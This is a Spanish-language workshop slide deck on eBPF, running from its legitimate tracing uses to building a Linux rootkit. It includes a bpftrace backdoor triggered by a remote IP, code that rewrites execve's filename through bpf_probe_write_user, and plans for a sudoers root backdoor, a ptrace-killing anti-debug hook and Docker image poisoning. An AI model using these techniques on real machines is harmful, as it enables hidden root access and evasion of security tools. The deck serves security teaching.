



# **Building your own eBPF rootkit!**

Ismael Gómez Esquilichi

---

# { "/bin/sh", "-c", "whoami", NULL };

- Aspirante a desarrollador de algo que funcione a la primera alguna vez
- Se me complica programar sin IDE
- Instalo GEF y PWNGDB para utilizar `b *main` únicamente
- Integrante de ["**base64**", "**IoTak0s**", "**Jinchomaniacos**"]
- Personal de investigación en GRAFO
- Interesado en web hacking y low level stuff
- ~~Miembro de OT 2023-24~~


---


# BPF (classic): Orígenes

Berkeley Packet Filter fue desarrollado en 1992 para filtrar paquetes de red

Muchos usuarios han interactuado con BPF usando ["Wireshark", "tcpdump", "winpcap"]

Al usar tcpdump con un filtro como "“dst host 10.10.10.10 and (tcp port 80 or tcp
port 443)" automáticamente compila a un filtro de BPF muy optimizado

---

# BPF: tcpdump

Ejemplo de las instrucciones que ejecuta `tcpdump` tras recibir el filtro `icmp`


```
[root@host ~]# tcpdump -i lo -d icmp
(000) ldh      [12]
(001) jeq      #0x800           jt 2    jf 5             # <---- ethertype for IP
(002) ldb      [23]
(003) jeq      #0x1             jt 4    jf 5             # <---- IP protocol number for ICMP
(004) ret      #262144
(005) ret      #0
```


---

# eBPF: Introducción

- __extended Berkeley Packet Filter__
- Extiende las instrucciones de BPF a 64 bits y añade los "BPF Maps"
- Diseñado para ejecutar programar en __restricted C__
- Socket filters, procesamiento de paquetes, trazado, etc...
- Las funcionalidades se hacen a través de la syscall **bpf(2)**
- La idea es desarollar dos programas que se comuniquen entre:
    - userland
    - kernel

---


# eBPF: Usos comunes

- La posibilidad de **ejecutar** **programas** en el **entorno** del **kernel** **sin afectar a la disponibilidad** (no kernel panics) ofrece **muchas posibilidades**:
    - Tracing
    - Observabilidad y Monitorización
    - Seguridad en entornos muy dispares (i.e. Kubernetes)
    - etc...

---





---

# eBPF: Falco

Falco es un producto opensource de seguridad que utiliza eBPF para obtener observabilidad sobre lo que pasa en el sistema

```yaml
- rule: shell_in_container
  desc: notice shell activity within a container
  condition: >
    evt.type = execve and 
    evt.dir = < and 
    container.id != host and 
    (proc.name = bash or
     proc.name = ksh)    
  output: >
    shell in a container
    (user=%user.name container_id=%container.id container_name=%container.name 
    shell=%proc.name parent=%proc.pname cmdline=%proc.cmdline)    
  priority: WARNING
```

---

# Conceptos previos: Tracepoints

Los tracepoints son una tecnología en el kernel que permite *hookear* funciones conectando con un *probe* (función que se ejecuta siempre que se llama a función *hookeada*).

```bash
root@vmi1029050:/sys/kernel/debug/tracing/events# ls -la
total 0
drwxr-x--- 106 root root 0 Oct 19 23:36 .
drwx------   9 root root 0 Oct 19 23:36 ..
drwxr-x---   6 root root 0 Oct 19 23:36 alarmtimer
drwxr-x---   3 root root 0 Oct 19 23:36 amd_cpu
drwxr-x---   3 root root 0 Oct 19 23:36 avc
drwxr-x---  20 root root 0 Oct 19 23:36 block
drwxr-x---  15 root root 0 Oct 19 23:36 cgroup
...
drwxr-x--- 688 root root 0 Oct 19 23:36 syscalls
```

---

# Conceptos previos: kprobes (y kretprobes)

Permite a los desarrolladores colocar puntos de interrupción (breakpoints) en casi cualquier instrucción del kernel de Linux.

Kprobes es dinámico, lo que significa que los desarrolladores pueden insertar y remover estos puntos de interrupción en tiempo de ejecución para investigar el comportamiento del kernel.

---

# Internals de kprobes

Cuando se **registra una kprobe**, se hace una **copia de la instrucción instrumentada** y **sustituye** el primer byte(s) de la instrucción sondeada por una instrucción de **punto de interrupción** (i.e. int3)

Cuando la CPU **alcanza el breakpoint**, se guardan los registros y el control pasa a Kprobes a través del mecanismo **notifier_call_chain**

Kprobes ejecuta el **pre_handler** **asociado** con la kprobe, pasando al handler las direcciones de la estructura kprobe y los registros guardados

Al ejecutarse en kernel, **pueden cambiar los registros, incluyendo el registro de instrucción**

---

# Internals de kprobes

```c
static int handler_pre(struct kprobe *p, struct pt_regs *regs) {
    printk(KERN_INFO "pre_handler: brk() called\n");
    return 0;
}
static void handler_post(struct kprobe *p, struct pt_regs *regs, unsigned long flags) {
    printk(KERN_INFO "post_handler: brk() completed\n");
}
static int handler_fault(struct kprobe *p, struct pt_regs *regs, int trapnr) {
    printk(KERN_INFO "fault_handler: trap number %d\n", trapnr);
    return 0;
}
static struct kprobe kp = {
    .symbol_name    = "do_brk",
    .pre_handler    = handler_pre,
    .post_handler   = handler_post,
    .fault_handler  = handler_fault,
};

static int __init kprobe_init(void) {
    int ret;
    ret = register_kprobe(&kp);
    return 0;
}
```

--- 


# Conceptos previos: uprobes

Similar a kprobes, pero se utiliza para instrumentar aplicaciones en **espacio de usuario**.

Permite a los desarrolladores **colocar puntos de interrupción en aplicaciones de usuario en ejecución**, lo cual es útil para depurar aplicaciones y monitorear su comportamiento sin necesidad de modificar su código o usar un depurador tradicional.

Veremos un ejemplo de su uso al final de este taller.


---

# eBPF: Uso legítimo

Uso de la herramienta **opensnoop** que usa eBPF para **instrumentar** las llamadas a **open()** y registrar que proceso ha hecho la llamada con el fichero abierto.

```
PID    COMM                 FD ERR PATH
4148864 sshd                5   0 /var/log/btmp
251     systemd-journal     17  0 /proc/4148864/comm
251     systemd-journal     17  0 /proc/4148864/cmdline
436     irqbalance          6   0 /proc/stat
436     irqbalance          6   0 /proc/irq/1/smp_affinity
4148872 bash                3   0 .
4148011 bash                3   0 /dev/null
4148873 cat                 3   0 /etc/ld.so.cache
4148873 cat                 3   0 /lib/x86_64-linux-gnu/libc.so.6
4148873 cat                 3   0 /usr/lib/locale/locale-archive
4148873 cat                 3   0 main.c
436    irqbalance           6   0 /proc/irq/12/smp_affinity
436    irqbalance           6   0 /proc/irq/14/smp_affinity
436    irqbalance           6   0 /proc/irq/15/smp_affinity
```

---

# Ejercicio

Usar varias herramientas de tracing de eBPF contenidas en el siguiente repositorio:

https://github.com/iovisor/bcc

Para instalar en Ubuntu

```bash
sudo apt-get install bpfcc-tools linux-headers-$(uname -r)
```


---

# eBPF: ¿ofensivo?


1. **Hooking** de llamadas a sistema
2. **Manipular** estructuras de **userland**
3. **Sobreescribir** valores devueltos por las llamadas a sistema
4. **Impedir** el uso de otras herramientas de seguridad y **detección** (i.e. hooking la llamada a sistema bpf())

--- 

# eBPF: Cambiando la realidad



--- 

# eBPF: Cambiando la realidad



---

# eBPF: Cambiando la realidad

```c
#include <stdio.h>
#include <fcntl.h>

int main() {
    char filename[] = "test.txt";

    int fd = openat(AT_FDCWD, filename, O_RDWR);

    char buffer[256];
    read(fd, buffer, sizeof(buffer));

    printf("Read: %s\n", buffer);

    close(fd);

    return 0;
}
```

---

# eBPF: Cambiando la realidad

```c
struct syscalls_exit_read_args {
    unsigned long long unused;
    long ret;
    int fd;
    char __user *buf;
    size_t count;
};

SEC("tracepoint/syscalls/sys_exit_read")
int handle_sys_exit_read(struct syscalls_exit_read_args *ctx) {
    if (ctx->ret > 0) {
        char msg[] = "eBPF modified data!\n";
        u32 msg_size = sizeof(msg) - 1;
        if (msg_size <= ctx->ret) {
            long ret = bpf_probe_write_user(ctx->buf, msg, msg_size);
        }
    }
    return 0;
}
```


---

# eBPF: Niveles de sofisticación ~~locura~~

1. Programas como bpftrace/bcc-tools, **no** hace falta **desarrollo**.
2. Escribir programas con **BCC** (¿Mezclar Python con C? No.)
3. Desarrollar programas custom con el uso de **libbpf**

Nosotros en el taller vamos a usar **libbpf** principalmente, aunque veremos también ejemplos de bpftrace.


---

# bpftrace

- Utilidad sencilla que permite ejecutar programas de eBPF rápidamente
- i.e. Imprimir los procesos que usan **openat(2)**

```bash
$ bpftrace -e 'tracepoint:syscalls:sys_enter_openat { printf("%s %s\n", comm, str(args->filename)); }'

Attaching 1 probe...
sshd /proc/self/oom_score_adj
sshd /etc/ld.so.cache
sshd /lib/x86_64-linux-gnu/libwrap.so.0
sshd /lib/x86_64-linux-gnu/libaudit.so.1
sshd /lib/x86_64-linux-gnu/libpam.so.0
sshd /lib/x86_64-linux-gnu/libsystemd.so.0
sshd /lib/x86_64-linux-gnu/libcrypto.so.3
sshd /lib/x86_64-linux-gnu/libz.so.1
sshd /lib/x86_64-linux-gnu/libcrypt.so.1
sshd /lib/x86_64-linux-gnu/libselinux.so.1
sshd /lib/x86_64-linux-gnu/libgssapi_krb5.so.2
sshd /lib/x86_64-linux-gnu/libkrb5.so.3
sshd /lib/x86_64-linux-gnu/libcom_err.so.2
```

--- 

# bpftrace

- Dispone de distintas sentencias para realizar scripts

```bash
#!/usr/bin/env bpftrace

BEGIN
{
	printf("Tracing bash commands... Hit Ctrl-C to end.\n");
	printf("%-9s %-6s %s\n", "TIME", "PID", "COMMAND");
}

uretprobe:/bin/bash:readline
{
	time("%H:%M:%S  ");
	printf("%-6d %s\n", pid, str(retval));
}
```

---

# bpftrace

- Podemos listar las syscalls y sus *enter* y *exit* correspondientes:

```bash
$ bpftrace -l 'tracepoint:syscalls:*'

tracepoint:syscalls:sys_enter_accept
tracepoint:syscalls:sys_enter_accept4
tracepoint:syscalls:sys_enter_access
tracepoint:syscalls:sys_enter_bpf
tracepoint:syscalls:sys_enter_brk
tracepoint:syscalls:sys_enter_capget
tracepoint:syscalls:sys_enter_capset
tracepoint:syscalls:sys_enter_chdir
tracepoint:syscalls:sys_enter_chmod
...
tracepoint:syscalls:sys_exit_chdir
tracepoint:syscalls:sys_exit_chmod
tracepoint:syscalls:sys_exit_chown
tracepoint:syscalls:sys_exit_chroo
```

---

# bpftrace

- Podemos conseguir la estructura que recibe la syscall
- Será útil para construir la estructura recibida por funciones de eBPF

```c
$ bpftrace -lv 'tracepoint:syscalls:sys_enter_openat'

tracepoint:syscalls:sys_enter_openat
    int __syscall_nr
    int dfd
    const char * filename
    int flags
    umode_t mode
```


---

# Backdoor con bpftrace

1. Asumiremos que un atacante **ya ha conseguido** acceso como **root** a un host
2. Se puede llegar a la máquina víctima desde la red directamente (no nos encontramos detrás de una VPN ni tenemos ninguna restricción)
3. Cuando llegue un **paquete malicioso**, queremos que se **ejecute un comando**

--- 

# Backdoor con bpftrace

```c
#!/usr/bin/env bpftrace

#include <net/sock.h>

kretprobe:inet_csk_accept
{
    $sk = (struct sock *) retval;

    if ( $sk->__sk_common.skc_family == AF_INET ) 
    {  
        printf("->%s: Checking RemoteAddr... %s (%u).\n", 
            func,
            ntop($sk->__sk_common.skc_daddr), 
            $sk->__sk_common.skc_daddr);
        
        if ($sk->__sk_common.skc_daddr == (uint32)$1)
        {
            system("whoami >> /proc/1/root/tmp/o");
            printf("->%s: Command executed.\n", func);
        }
    }
}
```

---

# Ejercicio

Se pide generar un programa que utilice el tracepoint de **signal_generate** y ejecute un comando tras detectar una señal de tipo 18 (SIGCONT).

Útil:
1. Buscar la función **signal_generate** en los tracepoints. ~~(maybe bpftrace -lv and grep?)~~
2. ¿Qué argumentos recibe **signal_generate**? ¿Cuál interesa?
3. **system()** FTW!

--- 

# Road to insanity!
 <!-- Setting width to 200px -->


---

```
 _______________________ 
< Ready to cheese in C? >
 ----------------------- 
   \
    \
      _____   _________
     /     \_/         |
    |                 ||
    |                 ||
   |    ###\  /###   | |
   |     0  \/  0    | |
  /|                 | |
 / |        <        |\ \
| /|                 | | |
| |     \_______/   |  | |
| |                 | / /
/||                 /|||
   ----------------|
        | |    | |
        ***    ***
       /___\  /___\

```

---

# libbpf: Hello world! (kernel)

```c
#include "vmlinux.h"
#include <bpf_helpers.h>

SEC("tracepoint/syscalls/sys_enter_execve")
int handler_enter_execve(struct trace_event_raw_sys_enter *ctx)
{
	bpf_printk("Hello world!\n");
	return 0;
}

char LICENSE[] SEC("license") = "GPL";
```

---

# libbpf: Hello world! (userland)

```c
 __________
< includes >
 ----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

int main(void) {
    struct hello *skel;
    int err = 0;

    skel = hello__open();
    /* Error handling */

    err = hello__load(skel);
    /* Error handling */

    err = hello__attach(skel);
    /* Error handling */

    while (1) {sleep(1);}

cleanup:
    hello__destroy(skel);
    return err;
}
```

---
# Ejercicio

En el ejemplo del código `hello-world`, compilarlo usando el `Makefile`.

1. Revisar que hace cada etapa del `Makefile`
2. Ejecutar cada una y comprobar que en `/sys/kernel/debug/tracing/trace` se encuentran los mensajes de `bpf_prink()`
3. Cambiar el código que se ejecuta en kernel para imprimir el binario del que viene dicha llamada. 

Pista: `bpf_get_current_comm()`


---

# Rootkit

Un rootkit es un conjunto de software malicioso diseñado para obtener acceso no autorizado a un ordenador  y, a menudo, ocultar su existencia o las actividades que realiza. (ChatGPT)

Vamos a realizar las siguientes funciones en el taller:
1. *Hijacking* de un proceso
2. SIGKILL a cualquier programa que utilice la llamada a sistema *ptrace()*
3. Backdoor acceso como root atacando `sudoers`
4. Infección por imágenes de docker falsas 

---

# *Hijacking* de un proceso

Vamos a *hookear* la función `execve()` para cambiar su primer argumento
La estrutura (extraida con bpftrace) es la siguiente:
```c
tracepoint:syscalls:sys_enter_execve
    int __syscall_nr
    const char * filename
    const char *const * argv
    const char *const * envp
```

Nos interesa cambiar el argumento `const char * filename` a uno que controlemos, por ejemplo `/a` (habiendo dejado un binario en esta ruta previamente).

---

# Userland (*Hijacking*)

1. Comprobar que el fichero `/a` existe
```c
access(hijackee_filename, F_OK) != 0 
```

2. Abrir el programa de eBPF y cargarlo en kernel
3. Crear el ringbuffer (**pipe** entre userland y eBPF)
4. Recibir eventos por el **rb** e imprimirlos
5. Win!

---

# Espera un segundo... ¿ringbuffer?


---

# Ringbuffer

- **Estructura de datos** que permite el almacenamiento de datos en un búfer circular
- **Eficiente** entre el código eBPF ejecutado en el kernel y el espacio de usuario
- Especialmente útil para el **registro de eventos**

[](https://mermaid-js.github.io/mermaid-live-editor//edit#pako:eNqN0MFqwzAMANBfMeolgaSw5lQfCk2TwGDssB7nHUwsN2aOHRKFrZT--9wkkB3rk6wn2UI3qL1C4HDpZdewtw_hWDjHKHp1pjY-jlmaHlj-WVps0ZFnL19zST7BaYXdAqcJihWyBYoJyhXeFygnqKKoMi6O51zF0u3j4_k20NUiOzJtrOUbvdfJQL3_Rr7JsmyJ0x-jqOG77vd_T_V0DyTQYt9Ko8I6bo83BFATRhXAQ6hQy9GSAOHuoVSO5M9XVwOnfsQExk5JwsLIsMgWuJZ2wPsfhsxq1g)

---

# Ringbuffer

## Kernel
```c
struct {
    __uint(type, BPF_MAP_TYPE_RINGBUF);
    __uint(max_entries, 256 * 1024);
} rb SEC(".maps");
```

## Userland
`handle_event` es una función custom que imprime los detalles del evento (struct event)

```c
rb = ring_buffer__new(bpf_map__fd(skel->maps.rb), handle_event, NULL, NULL);
   while (!exiting) { err = ring_buffer__poll(rb, 100 /* timeout, ms */); }
```

---

# *Hijacking* Kernel

1. Crear función `handle_execve()` con el tracepoint correcto
`SEC("tp/syscalls/sys_enter_execve") int handle_execve_enter(...)`
2. Leer el programa original y guardarlo en un buffer
3. Modificar dicho buffer
4. Usar `bpf_probe_write_user()` para modificar el arg[0]

```c
    prog_name[0] = '/';
    prog_name[1] = 'm';
    prog_name[2] = 'a';
    prog_name[3] = 'l';
    for (int i = 4; i < 16 ; i++) {
        prog_name[i] = '\x00';
    }
    long ret = bpf_probe_write_user((void*)ctx->args[0], &prog_name, 16);
```

---

# Espera un segundo... `bpf_probe_write_user()`?


---

# `bpf_probe_write_user()`

Este *helper* puede escribir en cualquier dirección de memoria de userland perteneciente al proceso responsable de llamar a la función *hookeada*.

Casos de uso:
1. Modificar cualquiera de los argumentos con los que se llama a una llamada del sistema
2. Modificar los argumentos de usuario en las funciones del kernel (i.e. `vfs_read`)

```c
ssize_t vfs_read(struct file *file , char __user *buf , size_t count, loff_t *pos)
```
3. Modificar la memoria del proceso tomando los parámetros de la función como referencia y escaneando la pila (ROP Malware!)


---

# if `ptrace()` then *SIGKILL*

Vamos a realizar un programa que, cuando detecte un proceso que está ejecutando la llamada a sistema `ptrace()` envie una señal de tipo SIGKILL

Requisitos:
1. Struct de evento para informar a nuestro programa de userland
2. *Hookear* la syscall `ptrace`
3. Enviar la señal (¿habrá algún helper?)
4. Win!


---

# Backdoor

Para generar un backdoor que siempre nos de acceso como root a un cierto usuario explotaremos la lógica que utiliza `sudo`

1. `sudo` lee `/etc/sudoers` y comprueba que el usuario tiene permisos
2. Si los tiene, ejecuta los argumentos
3. Si no los tienes, ¡adiós!

---

# Backdoor

El procedimiento será el siguiente:

1. Pone como clave de un hashmap el **pid del proceso `sudo`** que lee `sudoers` hookeando `sys_enter_openat`
2. **Actualiza el `fd`** en el hashmap cuando se ejecute `sys_exit_openat`
3. Se **guarda** en otro hashmap la **dirección del buffer** de `sys_enter_read` correspondiente a dicho `fd`
4. **Modifica los contenidos** de ese buffer tras leer en `sys_exit_read`


---


---

# Backdoor


[](https://mermaid-js.github.io/mermaid-live-editor//edit#pako:eNpt0clqwzAQBuBXGXToKX0BHXKIl6S3QA69CMzUM2oFtqxqKQ0h7155SUuxdZGY-fgZNDfRDsRCisCfiW3LpcF3j72ykI9DH01rHNoIB8AAIdEAT9PFPqxRMaFraPjbxGZwbDGuVTmqHl2jaSOj-s2wkX3jGWmN6kfEW9K6QaKtaY7_ptkOOo3m1Vhl597heb8vJFzwi-H8Us7FIhfLpViXYPRfq8qtem4RpMC-Q0swTjWyelHHrE4SKjIxs-X7JqWs2ImefY-G8hpuo1cifnDPSsj8JNaYuqiEsvdMMcXhcrWtkNEn3onkCONja0Jq7ALffwCgI5zI)

---

# PoC Time!


---

# Docker Poisoning

Vamos a atacar el siguiente comando

`docker run -it ubuntu:latest`

Al ejecutar este comando, se analiza la imagen que se quiere ejecutar en caso de que sea un *registry* remoto y/o se quiera una versión concreta.

`docker run -it 127.0.0.1:5000`


---

# Docker poisoning

Para realizar este ataque, vamos a seguir el siguiente procedimiento:

1. **Registrar un `uprobe`** que sea la función que realiza el análisis (*parsing*) del nombre de la imagen en el binario de docker
2. **Analizar** dicha **función** para ver que recibe y poder cambiar sus argumentos
3. **Cambiar la imagen** que recibe el usuario
4. Win!


--- 

# Ejercicio

## Fill in the blanks!

Tenéis el código boilerplate para acabar la idea planteada en las diapositivas


---

# Takeaways

1. **eBPF** es una herramienta muy **potente** para realizar **rootkits**
2. Debido a su habilidad de *hooking* puede ocultarse muy bien
    - Por ejemplo, podemos **hookear** la syscall **`bpf()`** para ocultar el propio rootkit y sus mapas
3. Es más fácil de desarrollar que un rootkit tradiciones, gracias a los helpers
4. Permite **ejecutar código en el NIC**, pudiendo así modificar paquetes antes de llegar al kernel
5. **No compromete** de ninguna forma la **disponibilidad** de la máquina víctima
6. Fácilmente **extensible** gracias a `libbpf`

---

# Recursos 

[TripleCross](https://github.com/h3xduck/TripleCross/)
[With Friends Like EBPF Who Needs Enemies](https://i.blackhat.com/USA21/Wednesday-Handouts/us-21-With-Friends-Like-EBPF-Who-Needs-Enemies.pdf)
[Bad Bpf](https://github.com/pathtofile/bad-bpf)
[Offensive Bpf - bpf_probe_write_user](https://embracethered.com/blog/posts/2021/offensive-bpf-libbpf-bpf_probe_write_user/)


---

<!-- _class: lead -->

# ¡Muchas gracias!

